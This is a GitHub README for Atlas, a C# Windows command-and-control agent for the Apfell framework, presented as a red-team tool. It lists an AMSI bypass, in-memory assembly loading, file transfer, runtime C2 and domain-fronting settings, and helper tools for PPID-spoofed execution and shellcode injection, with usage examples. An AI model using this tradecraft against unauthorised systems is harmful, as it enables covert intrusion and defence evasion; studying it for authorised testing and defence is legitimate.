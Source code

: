# Atlas
![](Atlas.png?style=centerme)

Atlas is a lightweight Windows Apfell agent written in C#. It was intended to be used as an initial access agent with a focus on stability and flexibility in it's configuration. I create the agent in an attempt to learn more about coding in C#, so the code is not optimized or written in the "proper" way. It was a fun project and I hope it may be useful to people for red team assessments and penetration testing.

## Features
- 3.5/4.0 .NET compatibility
- Small assembly size: <54Kb
- Dynamic .NET assembly loading and execution
	- Loaded assemblies are tracked so they only need to be loaded once
- Upload/Download files
- AMSI bypass when loading assemblies
- Proxy support
- Dynamic agent configuration
	- Add/remove C2 servers
	- Change sleep time and jitter
	- Change user-agent and host header
	- Change kill date
	- Modify query parameter for GET requests
	- Modify Proxy settings
- Intelligent C2 server selection
	- Keeps track of failed connections to servers and always chooses server with least failed connections
	- Tracking of failed connections is display with configuration data

## Build Instructions
Then navigate to `Manage Operations > Payload Management` on the Apfell server, and import the `atlas.json` file. This registers the payload with the Apfell server as an externally hosted payload.

You can then register the payload with the Apfell server via `Create Components > Create Payload` on the Apfell server, and stuff the PayloadUUID and other relevant information into `Config.cs`

Additional Atlas specific configuration options in `Config.cs`
```
Param				specify the query parameter to use for GET requests
ChunkSize			specify the chunking size to use for upload/download and command output
UseDefaultProxy		true or false, specify whether to use the system default proxy settings or use below manual settings 
ProxyAddress		specify proxy server address to use for web requests
ProxyUser			specify username to use for authenticating to proxy server
ProxyPassword		specify password to use for authenticating to proxy server
```

Then build the agent on a windows system with visual studio or via Mono on a *nix system. 

Once the agent is built, all that's left is to execute.

## Supported Commands
```
config			dynamically change agent settings during runtime (see below for more detail)
download		download files from target system to apfell server
exit			exit atlas instance via Environment.Exit
jobkill			kill a long running job
jobs			list current running jobs
listloaded		list assemblies loaded via the loadassembly command
loadassembly		load an arbitrary .NET assembly via Assembly.Load and keep track of assembly FullName for later execution
runassembly		execute the entrypoint of a .NET assembly loaded via loadassembly command
upload			upload a file from the apfell server to the target system
```

## Dynamic Configuration

Atlas allows a degree of dynamic configuration of the agent's settings after initial execution. These settings can be changed via the `config` command. below are the options to this command as there are many.
```
config				base command

options:
info				display current agent configuration
domain				option to add/remove C2 domain
	add				add a C2 domain to list of domains
	remove			remove a C2 domain from list of domains (will not let list be less then one domain)
sleep				sleep time between taskings in seconds
jitter				variation in sleep time, specify as a percentage
kill_date			date for agent to exit itself
host_header			host header to use for domain fronting
user_agent			user-agent header for web requests
param				option for query parameter used in GET requests
proxy				option to modify proxy settings
	use_default		true/false, choose whether to use system default settings or manual settings specified in config
	address			address of proxy server
	username		username to authenticate to proxy server
	password		password to authenticate to proxy server

Examples:
config info
config domain add http://hello.world
config sleep 60
config jitter 20
config kill_date 2020-03-01
config host_header cdn.cloudfront.com
config user_agent Mozilla 5.0 IE blah blah blah
config param order
config proxy use_default false
config proxy address 192.168.1.100
config proxy username harm.j0y
config proxy password Liv3F0rTh3Tw!ts
```

## Support Assemblies
Since functionality in Atlas is loaded via .NET assemblies, I have provided three support .NET projects that give Atlas basic RAT capability. Your welcome to use whatever fits your needs, but these are a good start.

`processlist` - This is a basic process listing application based off of [@cobbr's](https://twitter.com/cobbr_io?lang=en) code from [SharpSploit](https://github.com/cobbr/SharpSploit), it will retrieve current running process's PID, PPID, Arch, Name, and Owner.

`run` - This is slightly modified code from [@_RastaMouse](https://twitter.com/_rastamouse?lang=en) which he was kind enough to share after my struggles with named pipes redirection. This assembly executes shell commands while spoofing parent process ID and blocking non microsoft dlls from the process space. Neat little code and seems useful. (this does not execute via `cmd.exe`, if you would like to execute commands through there, start the command with `cmd.exe /c`)
```
Usage:
  run.exe <PPID> <command>
Example:
  run.exe 4343 ipconfig /all
Note: PPID is required for command
```

`apcinject` - Again, not my code. This is a slightly modified version of process injection using QueueUserAPC with a new process and suspended thread created by [@0xthirteen](https://twitter.com/0xthirteen).
```
Usage:
  apcinject.exe <path to target application> <base64 shellcode>
Example:
  apcinject.exe C:\Windows\System32\svchost.exe SGFjayB0aGUgUGxhbmV0IQ==
```

## TODO
- HTTP Profile
- File Browser Commands (ls & rm)
- Process listing hook
- unloadassembly

##  Acknowledgments
This project would not of been possible without the help and support of my coworkers

- [@its_a_feature_](https://twitter.com/its_a_feature_)
- [@djhohnstein](https://twitter.com/djhohnstein)
- [@cobbr_io](https://twitter.com/cobbr_io)
- [@001SPARTaN](https://twitter.com/001spartan)
